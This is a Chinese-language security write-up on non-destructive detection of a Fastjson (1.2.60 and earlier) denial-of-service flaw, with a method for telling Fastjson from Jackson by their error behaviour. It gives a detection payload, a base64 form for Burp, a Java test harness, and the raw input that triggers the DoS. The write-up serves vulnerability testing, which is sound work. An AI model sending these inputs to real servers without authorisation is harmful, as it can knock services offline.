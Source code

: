 ```yaml
---
title: "Fastjson <=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分"
id: zhfly2933
---
```


# Fastjson <=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分

## 一、漏洞简介

## 二、漏洞影响

Fastjson 1.2.60 以下版本

## 三、复现过程

针对Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS 的请求包，就会有一个时间延迟，但是部分使用者或 SRC平台对 DoS 类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有fastjson的字样

例如

![image](../img/22ca12e3284473674b57066a29798343.png)

### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。
由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{"name":"S", "age":21}

追加一个随机 key ,修改 json 为

{"name":"S", "age":21,"agsbdkjada__ss_d":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean 属性对齐,只能少不能多 key,
所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![image](../img/faa1b883e6fdbe6865b095a7fe3fb88d.png)

Jackson：

![image](../img/737d4cfe8da85d7776c2f0d233344270.png)

### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson < 1.2.60 在取不到值的时候会填充 \u001a ,
在1.2.60 进行了修复, 对 \x 后面的字符进行是否为16进制允许字符 (0-9a-fA-F) 的校验,
所以这里就可以手动 padding ,构造一个特殊的字符串

\x\u001a\u001a

测试代码:

Main.java

```
import com.alibaba.fastjson.JSON; `public class Main {

public static void main(String[] args) {

String payload = “{“a”:”\x\u001a\u001a"}";

System.out.println(payload);

Object o = JSON.parseObject(payload);

System.out.println(o.getClass());

}

}` 
```

Fastjson < 1.2.60

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

```
&lt;groupId&gt;tophant&lt;/groupId&gt;
&lt;artifactId&gt;tcc&lt;/artifactId&gt;
&lt;version&gt;1.0-SNAPSHOT&lt;/version&gt; 
```

<dependencies>

<dependency>

<groupId>com.alibaba</groupId>

<artifactId>fastjson</artifactId>

<version>1.2.59</version>

</dependency>

</dependencies> `</project>` 
```

![image](../img/2f70d63f4e0564ee74394369b057ee7b.png)

Fastjson == 1.2.60，可以看到报错

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

```
&lt;groupId&gt;tophant&lt;/groupId&gt;
&lt;artifactId&gt;tcc&lt;/artifactId&gt;
&lt;version&gt;1.0-SNAPSHOT&lt;/version&gt; 
```

<dependencies>

<dependency>

<groupId>com.alibaba</groupId>

<artifactId>fastjson</artifactId>

<version>1.2.60</version>

</dependency>

</dependencies> `</project>` 
```

![image](../img/905f31059288f69865d412e75b81a56f.png)

### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![image](../img/6d74e83ca0db2315aeac5e8078537084.png)

使用 {"a:"\x 进行请求就会发生 DOS

![image](../img/f75e236265da98d5633b8b4fb655b38c.png)

## 四、参考链接

> https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/